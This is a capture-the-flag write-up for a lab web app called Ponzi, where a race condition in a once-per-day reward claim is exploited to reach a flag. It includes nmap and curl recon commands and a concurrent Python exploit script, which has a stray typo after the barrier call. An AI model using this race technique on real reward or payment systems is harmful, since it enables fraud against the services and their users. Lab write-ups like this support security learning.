







# Towel on the Sunbed (Ponzi)

**Category:** Web · Business Logic / Race Condition
**Difficulty:** Medium

Ponzi is a poolside crypto rewards app. You get 50 PONZI every 24 hours by claiming a staking reward, and once you hit 150 PONZI you become a Whale and the Whale Vault opens up with the flag. The whole challenge is in that word "every 24 hours" — the timer that's supposed to stop you claiming more than once turns out to be a check-then-write that isn't atomic. Fire a bunch of claim requests at the exact same moment and they all pass the "have you claimed today?" check before any of them writes the timestamp back. So one account, one claim window, several payouts. The story's tip even spells it out: the ponzi guy thinks the clock is the only thing checking him.

## Recon

Started with a full port scan to see what's actually running.

    nmap -sV -sC -p- --min-rate 1000 10.112.135.220



Two ports SSH on 22 and the app on 3000, running Node.js Express, title "Ponzi Portfolio — Login". SSH is a dead end with no creds, so everything happens on 3000.

## Poking the app

Pulled the login page and the client JS to map out how it talks.

    curl -s http://10.112.135.220:3000/js/dashboard.js

No screenshot for this one, but it handed me the whole API:

    GET  /dashboard/api/me   
    POST /claim              -> +50 PONZI, once per 24h
    GET  /vault              -> the flag, if balance >= 150
    const WHALE_THRESHOLD = 150

So the plan writes itself: get to 150 PONZI, hit /vault. Normally that's three days of claiming. Not today.

## Registering and mapping the reward

Made a guest account in the browser and landed on the dashboard — balance 0, tier Shrimp, claim available, vault locked.



Fresh account sitting at 0 / 150 PONZI, "Earn 50 PONZI every 24 hours." One claim gives 50, so I need three claims to hit whale.

## Confirming the wall

Clicked Claim once. Balance jumped to 50 and the timer kicked in — next claim in 23:59:57, button greyed out.



This is the wall. A normal second claim right now just gets "Reward already claimed." Sequentially there's no way past it — you have to wait a full day. Which means the trick has to be timing, not repetition.

## The race

The /claim endpoint reads your last-claim time, checks 24h has passed, then writes the new balance and timestamp. That read-check-write isn't atomic, so if a load of requests land in the same instant they all read "never claimed" before any of them commits. I grabbed a fresh account's session cookie from DevTools to feed the script.



Then fired 10 claims at once, all released together with a barrier so they hit as close to simultaneous as possible.



Four of them came back "claimed successfully" on an account that's meant to allow one per day. You can even see the race in the newBalance values bouncing around 50, 200, 200 — the writes stepping on each other. Balance landed at 200, tier flipped to Whale.

## Whale status

Refreshed the dashboard and there it was — 200 / 150 PONZI, progress bar maxed, Open Vault lit up green. The claim timer still says 23:58, so the app thinks I only claimed once.



## The flag

Hit Open Vault and the vault handed over the flag.



    THM{t0w3l_0n_th3_******_******_*****}


## Exploit

```python
import requests, concurrent.futures, threading

URL = "http://10.112.135.220:3000/claim"
COOKIE = {"connect.sid": "s%3ATxlgcV4_tdY7tthgLVPYVV1FIKbeugah.JOdFm%2BAueBqCj%2Bk7PzwHJOOCZzwuBbjO%2BUaoVNCW5OE"}

N = 10
barrier = threading.Barrier(N)

def claim(i):
    barrier.wait() t
    try:
        r = requests.post(URL, cookies=COOKIE, timeout=10)
        return (i, r.status_code, r.text.strip())
    except Exception as e:
        return (i, "ERR", str(e))

with concurrent.futures.ThreadPoolExecutor(max_workers=N) as ex:
    results = [f.result() for f in concurrent.futures.as_completed([ex.submit(claim, i) for i in range(N)])]

ok = 0
for i, code, body in sorted(results):
    win = (code == 200 and "successfully" in body)
    if win: ok += 1
    print(f"[{i:02d}] {code} {body[:95]}{' <-- CLAIMED' if win else ''}")

print(f"\nSuccessful claims: {ok} (~{ok*50} PONZI)")
```

Register a fresh account, drop its connect.sid cookie in, run it — as long as that account hasn't claimed yet, a few requests slip through together and put you over 150. Then GET /vault for the flag.
